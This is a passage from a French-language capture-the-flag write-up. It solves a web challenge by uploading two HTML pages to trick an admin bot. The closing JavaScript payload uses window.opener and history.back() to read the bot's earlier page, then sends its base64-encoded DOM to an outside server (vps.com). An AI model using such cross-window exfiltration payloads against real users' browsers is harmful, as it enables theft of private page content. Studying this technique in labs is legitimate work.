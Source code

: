 C'est un bon plan, mais nous devons encore savoir deux choses : à quel moment écraser la page de garde ? Et comment retourner en arrière ?

Pour la question du moment où écraser la page de garde, il nous suffit de repenser au bot :

```js
    await page.goto(`http://localhost:3000/`);
    await new Promise((resolve) => setTimeout(resolve, 3000));
```

Il va à la page de garde et après 3 secondes, il va **ensuite** de nouveau la visiter avec le paramètre `f`. Lors de la première visite, il aura quelque chose comme ça (pas visuellement bien sûr, mais c'est pour donner une idée):

![image](Pasted image 20240226131644.png)

La seconde, si on place notre page html, le bot aura une page avec notre code javascript.

Reste à répondre à la seconde question. Comment retourner en arrière ?

Vu que de la seconde page `index2.html`, nous avons un contrôle total sur la première, on peut utiliser la fonction `back()` sur l'objet `history`. Merci Othmane pour l'idée ! :)

## Mettre les briques ensemble

1) Upload `index2.html`
![image](20-09-25.png)

2) Demander au bot de visiter la page de garde avec un id quelconque :

![image](20-10-55.png)

3) Attendre quelques secondes puis uploader `index.html` :
![image](20-13-51.png)

Au final, de `index2.html` on exfiltrera le DOM dans l'état antérieur à l'écrasement de la page de garde afin de récupérer le chemin d'accès au flag.

Codes :

index.html:

```js
<script>
	window.open('http://localhost:1337/index2.html', 'secretTab');
</script>
```

index2.html :

```js
<script>
    window.opener.history.back();
    setTimeout(()=> {
    window.location='https://vps.com/?res='+btoa(window.opener.document.body.innerHTML);
    }, 500)
</script>
```
